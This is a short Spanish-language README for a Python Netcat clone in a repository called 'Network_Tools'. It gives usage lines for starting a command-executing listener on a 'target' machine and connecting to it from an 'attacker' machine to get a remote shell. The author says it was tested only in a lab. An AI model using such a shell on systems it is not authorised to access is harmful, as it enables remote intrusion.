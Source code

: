 # Network_Tools
Herramientas que puedes utilizar para el analisis de redes 

Modo de ejecución:
  (Por el momento solo lo he probado en ordenadores dentro de la red de mi laboratorio)
  En la máquina objetivo:
    >> python3 Netcat.py -t @IP_Target -p @Puerto_Ataque -l (Queremos ponerlo en modo listen) -c (Queremos ejecutarle comandos como revershell)
    Quedamos a la espera de ver que aparece en nuestra terminal

  En la máquia atacante:
    >> Python3 Netcat.py -t @IP_Target -p @Puerto_Aaque 
    Una vez ejecutado el programa queda a la espera de ordenes
    >> CTRL-D
    >> (Nos dará el mensaje de bienvenida que haya programado y estamos dentro, momento del ataque)
  
